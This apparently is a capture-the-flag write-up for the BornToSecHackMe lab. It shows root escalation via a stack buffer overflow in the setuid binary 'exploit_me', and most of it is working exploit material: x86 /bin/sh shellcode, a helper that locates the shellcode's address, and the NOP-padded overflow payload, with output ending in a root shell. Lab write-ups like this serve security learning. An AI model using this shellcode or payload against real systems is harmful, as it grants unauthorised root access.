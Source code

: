 [See detailed writeup here](../writeup1.md)

This time we will exploit `**exploit_me**` in the zaz user with shellcode.

```
export shellcode=$'\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0
\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
```

When you search for "/bin/sh shellcode" on Google, this is one of the first results:

```
https://stackoverflow.com/questions/27171369/interpreting-a-shellcode
https://site.pi3.com.pl/exp/pi3.c
```

We copied the shellcode directly from there and put it into an environment variable.

We will use a simple C code to get the pointer address of this shellcode.

```
#include <stdio.h>
#include <stdlib.h>

int main(int ac, char **av)
{
        if (ac == 2)
        {
                char* ptr = getenv(av[1]);
                printf("%p\n", ptr);
        }
}
```

```
zaz@BornToSecHackMe:~$ gcc shellcode.c

zaz@BornToSecHackMe:~$ ./a.out shellcode
0xbffffef7
zaz@BornToSecHackMe:~$
```
Our second argument is the shellcode environment variable we added.

We just obtained the memory address and now we need to use it in little endian format.

```little endian = "\xf7\xfe\xff\xbf" ```


```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\xf7\xfe\xff\xbf"')
������������������������������������������������������������������������������������������������������������������������������������������������
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# exit

```

FINALLY WE ARE ROOT #4 ;D